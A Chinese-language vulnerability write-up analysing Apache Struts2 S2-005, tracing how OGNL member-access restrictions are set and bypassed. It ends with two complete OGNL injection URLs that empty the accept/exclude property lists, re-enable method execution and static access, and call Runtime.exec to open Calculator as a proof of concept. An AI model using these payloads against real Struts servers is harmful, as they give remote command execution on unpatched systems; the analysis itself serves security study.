





# s2-005漏洞分析

## 影响版本

Struts 2.0.0 - Struts 2.1.8.1

## 分析

在struts2-core 2.0.12更新以后在， `ParametersInterceptor#setParameters` 方法当中，这里不再使用原有的 `ValueStack`，而是通过`ValueStackFactory` 为当前值栈重新初始化 `ValueStack`



同时设置了 `acceptParams` 和 `excludeParams` 

```java
boolean memberAccessStack = newStack instanceof MemberAccessValueStack;
if (memberAccessStack) {
  MemberAccessValueStack accessValueStack = (MemberAccessValueStack)newStack;
  accessValueStack.setAcceptProperties(this.acceptParams);
  accessValueStack.setExcludeProperties(this.excludeParams);
}
```



这里还有个比较关键的地方在调用`createValueStack`的时候里面setRoot方法,，会创建 `SecurityMemberAccess` 对象,在哪里呢，在这里被保存到了上下文当中



相关调用栈

```java
setMemberAccess:185, OgnlContext (ognl)
addDefaultContext:243, Ognl (ognl)
createDefaultContext:172, Ognl (ognl)
setRoot:361, OgnlValueStack (com.opensymphony.xwork2.util)
<init>:104, OgnlValueStack (com.opensymphony.xwork2.util)
createValueStack:19, OgnlValueStackFactory (com.opensymphony.xwork2.util)
setParameters:199, ParametersInterceptor (com.opensymphony.xwork2.interceptor)
doIntercept:176, ParametersInterceptor (com.opensymphony.xwork2.interceptor)
```

最终在这里设置了`memberAccess`



那如何获得呢



首先还是按照原来的payload打一通


通过`com.opensymphony.xwork2.util.SecurityMemberAccess#isAccessible`检查权限，这里面调用了`this.getAllowStaticMethodAccess()`

，在经过一系列的调用之后最终会到`com.opensymphony.xwork2.util.SecurityMemberAccess#isAcceptableProperty`

```java
    protected boolean isAcceptableProperty(String name) {
        return this.isAccepted(name) && !this.isExcluded(name);
    }
```

但是在`isExcluded`会触发报错，原因是`paramName`参数为空

```java
    protected boolean isExcluded(String paramName) {
        if (!this.excludeProperties.isEmpty()) {
            Iterator i$ = this.excludeProperties.iterator();

            while(i$.hasNext()) {
                Pattern pattern = (Pattern)i$.next();
                Matcher matcher = pattern.matcher(paramName);
                if (matcher.matches()) {
                    return true;
                }
            }
        }

        return false;
    }
```

解决方法是通过`Ognl`表达式把`excludeProperties`设置为空即可绕过判断，现在就来解决这个问题，我们上面提到了`_memberAccess`可以获得这个`SecurityMemberAccess`对象，因此不难想到如下的设置即可

```java
#_memberAccess.acceptProperties=@java.util.Collections@EMPTY_SET
```

那么新的payload也来了，整个过程也还算顺利

```
http://127.0.0.1:8080/login.action?(%27\u0023_memberAccess.acceptProperties\u003d@java.util.Collections@EMPTY_SET%27)(abc)(def)&(%27\u0023context[\%27xwork.MethodAccessor.denyMethodExecution\%27]\u003dfalse%27)(abc)(def)&(%27\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET%27)(abc)(def)&('\u0040java.lang.Runtime%40'%2B'getRuntime().exec(%5Cu0023aa)')(%5Cu0023aa%5Cu003d'open%5Cu0020-a%5Cu0020Calculator.app')('y4tacker')
```

## PS

再多说一个，刚刚发现在高版本，这里指的是struts-core2.1.2以后，`allowStaticMethodAccess`默认设置为`false`了，还是可以修改的

```java
http://127.0.0.1:8080/login.action?(%27\u0023_memberAccess.allowStaticMethodAccess\u003dtrue%27)(abc)(def)&(%27\u0023_memberAccess.acceptProperties\u003d@java.util.Collections@EMPTY_SET%27)(abc)(def)&(%27\u0023context[\%27xwork.MethodAccessor.denyMethodExecution\%27]\u003dfalse%27)(abc)(def)&(%27\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET%27)(abc)(def)&('\u0040java.lang.Runtime%40'%2B'getRuntime().exec(%5Cu0023aa)')(%5Cu0023aa%5Cu003d'open%5Cu0020-a%5Cu0020Calculator.app')('y4tacker')
```

